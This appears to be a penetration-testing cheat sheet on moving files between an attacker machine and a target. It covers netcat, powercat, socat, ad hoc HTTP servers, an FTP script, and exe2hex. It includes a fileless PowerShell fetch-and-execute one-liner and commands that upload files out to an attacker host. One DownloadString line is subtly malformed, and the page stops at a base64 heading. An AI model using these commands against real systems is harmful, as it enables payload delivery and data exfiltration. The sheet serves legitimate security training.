 # Transfering files

[back](readme.md)

## Netcat

```
# source
nc -nv <ip> <port> < <file>

# destination
nc -lvnp <port> > <file>
```

## Powercat

```
# source
powercat -c <ip> -p <port> -i C:\<src_path>

# destination
powercat -l -p <port> -of C:\<dst_path>
```

## Socat

```
# source
socat TCP4-LISTEN:<port>,fork file:<src_path>

# destination
socat TCP4:<ip>:<port> file:<dst_path>,create
```

## HTTP server + Powershell

```
# create server on attacker machine with one of these
python3 -m http.server <port>
python2 -m SimpleHTTPServer <port>
php -S 0.0.0.0:<port>
ruby -run -e httpd . -p <port>
busybox -f -p <port>

# download with powershell oneliner
## download file
(New-Object System.Net.WebClient).DownloadString("<source>","<destination>")

## execute powershell script without touching disk
iex (New-Object System.Net.WebClient).DownloadString("<source>")

## upload file
iex (New-Object System.Net.WebClient).UploadFile("<destination>", "<file>")
```

## pure-ftp

```
# ftp server needs to be configured before

echo open <attacker> 21 > ftp.txt
echo user <user> >> ftp.txt
echo <pass> >> ftp.txt
echo bin >> ftp.txt
echo get <file> >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

## exe2hex

```
upc -9 <file>
exe2hex -x <file> -p <output>.cmd
# copy paste into target terminal
```

## If everything fails, base64

